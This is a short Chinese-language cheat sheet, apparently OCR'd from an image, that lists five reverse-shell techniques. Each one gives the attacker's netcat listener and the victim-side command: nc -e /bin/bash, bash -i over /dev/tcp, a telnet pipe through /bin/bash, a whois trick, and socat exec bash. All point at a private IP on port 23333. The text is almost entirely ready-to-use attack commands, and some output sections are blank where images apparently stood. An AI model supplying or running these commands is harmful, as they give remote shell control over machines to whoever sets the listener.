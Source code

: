 ##### 1.Nc -e反弹

攻击端：

nc -lvp 23333

受害端：

nc -e /bin/bash 192.168.154.129 23333



##### 2.Bash -i反弹

攻击端：

nc -lvp 23333

受害端：

bash -i >/dev/tcp/192.168.154.129/23333 0>&1 2>&1

（bash重定向到攻击机23333端口0和2表示标准输出和错误输出都重定向到攻击端。）



##### 3.Telnet反弹(需安装telnet服务)

攻击端：

nc -lvp 23333

受害端：

telnet 192.168.154.129 23333 | /bin/bash | telnet 192.168.154.129
23334



第一个监听窗口执行命令：

第二个监听窗口回显：

##### 4.Whois反弹

攻击端：

nc -lvp 23333

受害端：

whois -h 192.168.85.141 -p 23333 ‘whoami’

获得回显：


5.socat反弹
攻击端：

nc -lvp 23333

受害端：

socat exec:’bash -li’,pty,stderr,setsid,sigint,sane
tcp:192.168.154.129:23333
